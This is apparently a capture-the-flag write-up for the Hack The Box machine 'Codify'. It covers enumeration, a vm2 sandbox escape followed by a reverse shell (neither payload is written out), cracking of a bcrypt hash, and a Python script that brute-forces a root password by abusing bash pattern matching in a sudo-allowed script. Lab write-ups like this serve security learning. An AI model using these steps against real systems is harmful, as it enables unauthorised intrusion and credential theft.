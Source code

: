 ```yaml
---
slug: /write-up/htb/easy/codify
pagination_next: null
pagination_prev: null
draft: true
---
```


## Enumeration

```bash
curl 10.10.11.239                                                  
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://codify.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.239 Port 80</address>
</body></html>
```
Let's add the host to /etc/hosts

nmap reports several things opened:

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
```

The port 80 is a webserver that hosts a NodeJS editor to execute NodeJS in a sandboxed scenario.

Port 3000 looks the same.

The sandbox looks like it's using the vm2 library:
```
 The vm2 library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```
The sandbox has the following limitations: http://codify.htb/limitations

The editor works by sending a POST request with base64 content:

```
curl 'http://codify.htb/run' -X POST -H 'Referer: http://codify.htb/editor' -H 'Content-Type: application/json' -H 'Origin: http://codify.htb' --data-raw '{"code":"YQ=="}'
```
This request belongs to the code `a`:
```bash
└─$ echo YQ== | base64 -d
a
```

## Foothold

Look at Google for vm2 escape, found this payload: https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

Prepared the script a bit and got it, then send a reverse shell and we're in as `svc` user and then improve to a good shell.

Found the user `joshua` on /etc/passwd.

Checking the contents of the server, there's the `contact` folder which looks like an old nodejs app. It has a sqlite database which contains a users table with an entry for joshua. Let's try to crack the bcrypt hash stored there.

```bash
hashcat exfil/hash -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
```

Found the password for user `joshua`, now connect with SSH, and we're in and get can get the user flag.


## Privilege escalation

The user `joshua` can execute this command as root:

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

In that script, there's one `if` statement that checks the user input password with the credentials stored in one file:

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
```

The problem with that is, this if does not perform string comparison, it performs pattern matching. Which means that it `USER_PASS` is `*`, the if will pass. 

The pattern matching will work with any character, for instance let's say the password is `password`, if the user provides the password `p*` it will pass, so we can slowly bruce-force each character thanks to pattern matching with the following script:

```python
import string
import subprocess
import time

all_characters = list(string.ascii_letters + string.digits)
password = ""
while True:
    for char in all_characters:
        command = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed" in output:
            password += char
            print(password)
            time.sleep(1)
```

And found the password for root, now we can run `su` and provide that password and we got root access.